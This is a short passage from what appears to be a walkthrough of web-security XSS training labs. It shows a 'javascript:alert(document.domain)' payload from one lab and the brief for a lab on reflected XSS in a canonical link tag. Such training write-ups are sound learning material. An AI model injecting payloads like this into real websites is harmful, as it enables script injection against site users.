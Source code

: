Payload

```
javascript:alert(document.domain)
```

![](img32.png)

![](img33.png)

## 12. Lab: Reflected XSS in canonical link tag

```
This lab reflects user input in a canonical link tag and escapes angle brackets.

To solve the lab, perform a cross-site scripting attack on the home page that injects an attribute that calls the alert function.

To assist with your exploit, you can assume that the simulated user will press the following key combinations:

ALT+SHIFT+X
CTRL+ALT+X
Alt+X
Please note that the intended solution to this lab is only possible in Chrome.
```
